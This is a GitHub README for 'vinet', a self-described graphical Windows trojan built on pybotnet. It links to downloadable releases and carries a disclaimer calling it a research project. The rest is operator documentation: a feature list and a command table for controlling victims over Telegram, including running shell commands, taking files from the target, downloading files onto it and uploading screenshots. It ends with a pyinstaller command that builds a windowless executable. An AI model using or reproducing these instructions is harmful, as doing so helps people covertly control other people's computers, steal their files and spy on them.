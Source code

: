 # vinet v0.18.6
## gui trojan for windows

This is a graphical trojan created with [pybotnet](https://github.com/onionj/pybotnet) and tkinter 

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf.

### Screenshot:
![VINET](/relative/path/to/img.jpg?raw=true "VINET GUI")

### Download link:
[VINET](https://github.com/onionj/vinet/releases)
    
### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system
* import file from target system 
* get screenshot


### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`    `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |




compile app with pyinstaller: `pyinstaller --noconsole --onefile -i "icon.ico" vinet.py`

> if you want use this app on windows 7, compile with python 3.7